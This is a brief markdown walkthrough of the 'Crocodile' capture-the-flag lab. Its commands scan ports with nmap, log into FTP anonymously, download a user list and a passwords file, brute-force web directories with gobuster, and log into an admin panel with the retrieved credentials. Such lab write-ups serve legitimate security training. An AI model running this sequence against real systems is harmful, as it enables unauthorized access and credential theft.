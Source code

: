 # Notes for Crocodile Machine

## Commands Used

### Terminal Workflow

# Nmap scan to identify open ports and services
```
nmap -sC -sV <IP>
```

# Connect to the FTP server
```
ftp <IP>
# Login as anonymous
# When prompted for credentials:
# Username: anonymous
# Password: <leave blank>
```

# List files in the FTP server
```
dir
```

# Download files from the FTP server
```
get allowed.userlist
get passwords.txt
```

# Exit FTP
```
exit
```
# View the downloaded files
```
cat allowed.userlist
cat passwords.txt
```

# Perform directory brute-forcing with Gobuster
```
gobuster dir --url http://<IP>/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

# Navigate to the discovered login page in a browser
# URL: http://<IP>/login.php

# Use credentials from the FTP files to log in to the admin panel
# Example:
# Username: admin
# Password: <password from passwords.txt>
```